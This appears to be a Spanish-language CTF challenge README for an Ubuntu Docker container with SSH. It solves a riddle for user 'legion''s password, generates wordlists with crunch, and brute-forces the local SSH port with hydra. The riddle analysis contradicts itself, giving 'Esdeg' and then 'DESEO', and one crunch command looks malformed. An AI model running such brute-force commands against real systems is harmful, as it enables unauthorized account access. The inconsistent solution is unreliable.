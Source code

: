 # Reto CTF: Ubuntu con SSH – Usuario `legion`

## 1. Descripción General

Este reto plantea un escenario CTF individual mediante una imagen Docker que ejecuta Ubuntu con el servicio SSH habilitado. Se incluye el usuario `legion`, cuya contraseña es el núcleo del desafío. Una vez descubierta, permite autenticarse vía SSH y obtener la bandera correspondiente.

El objetivo es:
- Resolver un acertijo que contiene pistas sobre la contraseña.
- Validar la contraseña mediante una conexión SSH.
- Aplicar herramientas de **Diccionario** como `crunch` e `hydra`.
- Documentar el proceso de acceso al contenedor Docker.

---

## 2. Resolución del Acertijo

### Acertijo:

> Cinco guardianes vigilantes,  
> cada uno con su inicial,  
> la primera se esconde en “estrella”,  
> la segunda en la “selva” tropical,  
> tercera y cuarta van seguidas,  
> ambas en “dedo” se dejan hallar,  
> la última es misteriosa,  
> y en “gato” suena al final.  
> Juntas caminan siempre en fila.

### Análisis:

| Posición | Clave                     | Letra identificada |
|----------|---------------------------|---------------------|
| 1        | Se esconde en "estrella"  | **E**               |
| 2        | En "selva" tropical       | **s**               |
| 3 y 4    | En “dedo”, seguidas       | **d**, **e**        |
| 5        | Suena al final de "gato"  | **g**               |

➡️ **Contraseña sugerida por el acertijo:** `Esdeg`

➡️ También se interpreta como palabra coherente: `Esdeg`

---

## 3. Uso de Crunch

**Crunch** es una herramienta para generar diccionarios personalizados. En caso de requerir fuerza bruta:

```bash
crunch 5 5 -t @@DEO -o dict2.txt
```

O para un diccionario basado en las letras del acertijo:

```bash
crunch 5 5 -o posibles.txt -f /usr/share/crunch/charset.lst alpha -t %%@@@
```

![Crunch](/Images/crunch_dic.png)
---

## 4. Uso de Hydra

Si se desea probar todas las contraseñas generadas:

```bash
hydra -l legion -P posibles.txt ssh://localhost -s 2222
```

- `-l legion`: usuario a atacar.
- `-P posibles.txt`: diccionario con contraseñas.
- `ssh://localhost`: protocolo y host.
- `-s 2222`: puerto SSH mapeado en el contenedor.

![Crunch](/Images/hydra_dic.png)
---

## 5. Resultado de la conexión SSH

Una vez descubierta la contraseña (`debería ser: DESEO`), se puede acceder al contenedor:

```bash
ssh legion@localhost -p 2222
```

### Resultado esperado:

📸 **[Aquí se insertará la imagen del acceso exitoso vía SSH con el usuario `legion`]**
![Resultado](/Images/ssh_conection.png)

---

> ⚠️ **Nota:** Este contenedor no tiene persistencia por defecto. Si se reinicia o elimina, se perderán los datos y configuraciones internas.

---
